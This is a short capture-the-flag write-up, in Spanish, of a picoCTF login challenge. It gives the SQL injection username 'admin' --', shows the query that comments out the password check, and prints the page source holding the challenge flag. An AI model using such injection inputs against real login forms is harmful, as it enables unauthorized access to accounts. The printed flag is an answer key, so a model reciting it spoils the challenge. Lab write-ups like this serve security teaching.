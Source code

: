 Can you login to this website? Try to login [here](http://saturn.picoctf.net:56547/).

# Solución
Hay que hacer una inyección SQL intentando ingresar como usuario admin
Entonces quedaría como:
```
user: admin' --
password: 
```
```sql
SQL query: SELECT * FROM users WHERE name='admin' -- AND password=''
```
Después podemos ver la flag en el código de la página
```
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```
